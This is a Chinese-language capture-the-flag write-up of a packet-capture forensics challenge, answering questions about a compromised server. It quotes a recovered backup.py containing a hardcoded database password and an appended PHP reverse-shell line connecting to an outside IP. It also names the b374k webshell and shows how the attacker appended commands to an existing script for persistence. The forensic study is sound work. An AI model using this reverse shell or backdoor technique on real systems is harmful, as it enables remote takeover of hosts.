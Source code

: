 ### Passing on Complexity
![](https://i.imgur.com/WV1N2ak.png)

在封包 91642 找到有下 cat backup.py 的指令

![](https://i.imgur.com/CjzgKfu.png)

而 91643 回傳了內容

![](https://i.imgur.com/ZBy9Rt2.png)

內容如下
```python=
#!/usr/bin/env python3
from os import popen
popen('mysqldump -u backup -pbackup123 esu | gzip > /backups/backup_esu_$(date "+%Y%m%d%H%M%S").sql.gz')

cmd="php -r '$sock=fsockopen(\"165.227.73.138\",4815);exec(\"/bin/bash -i <&3 >&3 2>&3\");'"
popen(cmd)
```

password 為其中的 -pXXXXX

flag{backup123}

### Shells
![](https://i.imgur.com/DLND1KY.png)

要找 shell 相關的工具名稱

在 filter 出有 tcp data 的流量後，發現在封包 91275 的資料區塊發現有 `b374k` 的字樣

![](https://i.imgur.com/efF4Xpy.png)

由於 `b374k` 是一個知名的 webshell 工具，推測答案應該是這個

flag{b374k}

### Escalation
![](https://i.imgur.com/ZbfnRhz.png)

要找攻擊者加進現有檔案的檔案名稱和使用到的變數名

在封包 91610 和 91614 可以看到，攻擊者將指令用 echo 並 `>>` 的方式添加進 /opt/backup.py 中

![](https://i.imgur.com/E0QxGX1.png)

![](https://i.imgur.com/dhbvNQT.png)

因此檔案名稱為 `backup.py`，變數名為 `cmd`

flag{backup.py_cmd}
